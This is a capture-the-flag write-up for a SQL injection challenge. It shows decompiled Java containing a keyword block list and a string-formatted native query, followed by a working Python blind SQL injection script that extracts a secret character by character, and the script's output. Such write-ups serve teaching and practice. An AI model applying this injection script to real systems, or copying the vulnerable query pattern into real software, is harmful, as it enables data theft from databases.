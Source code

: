 # Solution

This challenge contains two hidden endpoints (can be easily detected by scanner or crawler):
- `robots.txt` (points to `/backup`)
- `backup` (contains a backup `.jar` file)

The given `.jar` file is then decompiled with any tool to reveal the source code. In the source code there is this method:
```java
@GetMapping("/model/{model}")
public ResponseEntity getByManufacturer(@PathVariable("model") String model) {
	ResponseEntity response;
	try {
	    List<String> keywords = Arrays.asList(
		    "UNION", "INSERT", "SHOW", "BACKUP", "ALTER", "TRUNCATE", "WITH", "CALL",
		    "INTERSECT", "SELECT", "CREATE", "FROM", "DROP", "DELETE", "JOIN", ";", "\\", "\""
	    );
	    for(String keyword : keywords) {
		if(model.toUpperCase().contains(keyword)) {
		    throw new NoResultException();
		}
	    }
	    String query = String.format("SELECT * FROM CARS WHERE MODEL = '%s' LIMIT 1", model);
	    CarModel car = (CarModel) entityManager.createNativeQuery(query, CarModel.class).getSingleResult();
	    response = new ResponseEntity<>(car, HttpStatus.OK);
	} catch(NoResultException e) {
	    response = new ResponseEntity<>(HttpStatus.NOT_FOUND);
	} catch(Exception e) {
	    response = new ResponseEntity<>(HttpStatus.INTERNAL_SERVER_ERROR);
	}
	return response;
}
```

The method is vulnerable to blind SQL injection which just needs to be scripted. The following script should work:

```python
import requests
import sys

ALPHABET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUWVXYZ0123456789_-{}"
flag = ''
for i in range(1, 100):
	for j in ALPHABET:
		req = "http://localhost:8080/cars/model/' OR CASEWHEN(SUBSTRING(SECRET,{},1) = '{}',1,0)--}}".format(i, j)
		#print(req)
		resp = requests.get(req)
		if resp.status_code == 200:
			flag += j
			if j == '}':
				print(flag)
				sys.exit(0)
			break
```

```sh
$ python3 solve.py 
ibctf{sqli_sw4p_f13lds-GZ-2}
```

The script will also work in a variant where `CASEWHEN` is not removed and only `SUBSTRING` is used.
